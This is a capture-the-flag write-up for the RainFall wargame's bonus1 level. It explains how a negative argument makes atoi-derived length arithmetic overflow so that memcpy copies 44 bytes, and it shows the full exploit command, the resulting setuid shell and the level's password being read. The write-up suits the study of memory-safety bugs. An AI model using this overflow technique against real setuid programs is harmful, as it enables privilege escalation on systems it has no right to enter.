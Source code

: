 # Bonus1

We can find an executable which segfault without arguments and do nothing with
```
bonus1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus2 users 5043 Mar  6  2016 bonus1
bonus1@RainFall:~$ ./bonus1
Segmentation fault (core dumped)
bonus1@RainFall:~$ ./bonus1 bla
bonus1@RainFall:~$
```
After analyze it with gdb we only find a `main()` function.  
Please refer to file [asm_analysis.md](https://github.com/maxisimo/42-RainFall/blob/main/bonus0/Ressources/asm_analysis.md) in parallel of [source.c](https://github.com/maxisimo/42-RainFall/blob/main/bonus0/source.c) for full explanations.  
There is a call to `memcpy()` which is vulnerable to buffer overflow.  
The program take two arguments :  
- The first argument is converted to an integer using `atoi()` let's call it `nb`. If we want to access to `memcpy()`, `nb` must be less than or equal to 9.  
- The second argument is copied into a buffer located 40 bytes above the location of the `atoi()` return. Then `nb` is compared to `0x574f4c46`, if it equal the program call `execl()`.  
The problem is that `memcpy()` will copy only 4 * `nb` bytes of argv[2]. So 36 is the maximum number of bytes that can be copied into the buffer (9 * 4 = 36).  
Instead of a positive `nb` we can provide to memcpy a negative `nb`.  
How is it working ?
The value of `nb` is stored in a DWORD (32 bits), the minimum value of a 32-bit signed integer is -2147483647.
```
                                                   32 bits
                                                      |
int_min     = 0000 0000 0000 0000 0000 0000 0000 0000 | 1000 0000 0000 0000 0000 0000 0000 0001 = -2147483647
int_min * 4 = 1111 1111 1111 1111 1111 1111 1111 1110 | 0000 0000 0000 0000 0000 0000 0000 0100 = 4
```
We can see that after 32 bits, the rest is ignore so we gonna cheat a little bit.  
If we change the first 32 bits of int_min * 4 in order to have 44 (0b101100), we can retrieve the good decimal number to provide.
```
                                                    32 bits
                                                       |
random_int   = 1111 1111 1111 1111 1111 1111 1111 1110 | 0000 0000 0000 0000 0000 0000 0010 1100 = 44 (-8589934548)
random_int/4 = -2147483637

```
Now we have our first arg : -2147483637 which is less than 9 and will give us 44 when multiply by 4.  
For the second arg, we need to fill the buffer with the first 40 bytes (padding). Then the last 4 bytes will erase the value of `nb` and replace it by 0x574f4c46.
```
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
$ exit
bonus1@RainFall:~$ su bonus2
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus2/bonus2
bonus2@RainFall:~$
```
Bonus1 passed!
